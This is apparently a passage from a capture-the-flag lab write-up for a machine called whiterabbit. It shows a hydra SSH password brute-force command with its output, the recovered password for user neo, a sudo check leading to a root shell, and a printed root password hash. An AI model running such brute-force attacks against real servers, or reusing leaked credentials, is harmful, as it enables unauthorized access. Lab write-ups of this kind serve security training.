 Then let's save them into a file and use hydra to crack the password of neo by using ssh.
```
hydra -l neo -P neo_password.txt ssh://10.10.11.63 -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-09 23:36:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1001 login tries (l:1/p:1001), ~63 tries per task
[DATA] attacking ssh://10.10.11.63:22/
[22][ssh] host: 10.10.11.63   login: neo   password: WBSxhWgfnMiclrV4dqfj
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-09 23:37:06
```
Then we finally get the password of `neo` `neo:WBSxhWgfnMiclrV4dqfj`
Let's try to ssh to this user.
We can check `sudo -l`
```
neo@whiterabbit:~$ sudo -l
[sudo] password for neo: 
Matching Defaults entries for neo on whiterabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User neo may run the following commands on whiterabbit:

```
We can just `sudo su` with the password of `neo` and get the root shell.



Root hash
`root:$y$j9T$Rx7IRKAooZBFEEKqpflWl1$fK0BeVoPRj.EwPj9sYKZMu.Ti0EmrFpmQQZmayCKdL/:19962:0:99999:7:::`
